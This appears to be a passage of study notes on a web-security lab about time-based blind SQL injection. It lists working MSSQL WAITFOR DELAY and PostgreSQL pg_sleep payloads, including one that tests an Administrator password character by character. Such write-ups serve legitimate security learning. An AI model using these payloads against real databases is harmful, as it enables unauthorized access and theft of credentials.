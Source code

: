 ```
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--
```

* The first of these inputs does not trigger a delay, because the condition `1=2` is false.
* The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

### Lab: Blind SQL injection with time delays and information retrieval

We need to be aware of the different versions for the time delays:

<figure><img src="../.gitbook/assets/image (844).png" alt=""><figcaption></figcaption></figure>

This query worked for the injection:

```
'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END-- 
#OR
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```
